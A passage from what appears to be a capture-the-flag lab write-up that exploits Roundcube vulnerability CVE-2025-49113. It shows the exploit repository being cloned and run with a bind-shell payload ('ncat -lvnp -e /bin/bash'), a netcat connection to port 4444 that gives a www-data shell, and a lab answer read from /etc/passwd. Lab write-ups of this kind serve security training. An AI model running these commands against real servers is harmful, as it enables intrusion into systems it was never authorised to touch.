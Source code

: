 <p>It is worth mentioning that the exploit may take a minute or two to respond and sometimes the script gives an error message despite the payload successfully executing on the target. In one attempt, we got the following error message; however, the bind shell was set up successfully, and we could connect to it from the AttackBox.</p>

<p><em>AttackBox Terminal</em></p>

```bash
PHP Warning:  file_get_contents(http://TargetIP/roundcube/): failed to open stream: HTTP request failed! in /root/CVE-2025-49113/CVE-2025-49113.php on line 240
### Error: CSRF token not found in response body
```

<p>On the AttackBox, you must connect to the bind shell listening on port <code>4444</code>.</p>

<p><em>AttackBox Terminal</em></p>

```bash
root@attackbox:~# nc TargetIP 4444
pwd
/var/www/html/roundcube
whoami
www-data
```

<h3 align="left"> Answer the questions below</h3>

> 3.1. <em>One of the users has the first name of Maggie; what is her last name?</em> Hint : <em>Check the /etc/passwd file.</em><br><a id='3.1'></a>
>> <strong><code>Byte</code></strong><br>
<p></p>

![image](https://github.com/user-attachments/assets/9ddce25c-64ca-4cae-929c-d59367fd9be3)

![image](https://github.com/user-attachments/assets/c823eeb2-d3ee-4ad6-b159-a3ff1a88316e)

```bash
:~# git clone https://github.com/fearsoff-org/CVE-2025-49113
...
:~# ls
CVE-2025-49113
:~# CVE-2025-49113# ls
CVE-2025-49113.php  rc_install.sh  README.md
:~# CVE-2025-49113# php CVE-2025-49113.php http://TargetIP/roundcube ellieptic Redacted 'ncat -lvnp -e /bin/bash'
```

![image](https://github.com/user-attachments/assets/ceffb2a6-d463-4e94-b6d8-8f1d91d751f7)

![image](https://github.com/user-attachments/assets/54841143-f2af-4ba3-86e0-200be2f3ba1c)

<p>Error ... despite the error message it worked.</p>

![image](https://github.com/user-attachments/assets/dfa0c592-4f0e-4b82-a5b6-4b59540c8d34)

<br>

